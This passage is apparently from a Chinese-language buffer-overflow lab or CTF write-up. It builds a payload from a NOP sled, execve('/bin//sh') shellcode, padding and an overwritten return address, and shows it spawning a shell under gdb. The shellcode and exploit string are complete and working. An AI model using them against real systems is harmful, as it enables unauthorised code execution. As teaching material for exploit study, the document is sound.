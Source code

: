         ![Alt text](/style/image/image-412.png)

        Memory Address 取 NOP sled 和 shellcode 之间的地址(如0x7fffffffe298):

        则有效载荷可与为:

        ```
        '\x90' * 90 + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x41' * 22 + '\x98\xe2\xff\xff\xff\x7f'
        ```
        ```
        (gdb) run $(python -c "print('\x90' * 90 + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x41' * 22 + '\x98\xe2\xff\xff\xff\x7f')")
        The program being debugged has been started already.
        Start it from the beginning? (y or n) y
        Starting program: /home/user1/overflow-3/buffer-overflow $(python -c "print('\x90' * 90 + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x41' * 22 + '\x98\xe2\xff\xff\xff\x7f')")
        Here's a program that echo's out your input
        ������������������������������������������������������������������������������������������j;XH1�I�//bin/shI�APH��RWH��j<XH1�AAAAAAAAAAAAAAAAAAAAAA�����
        process 5260 is executing new program: /usr/bin/bash
        sh-4.2$ 
        ```
        
        + 获取shell后,查看相关信息:

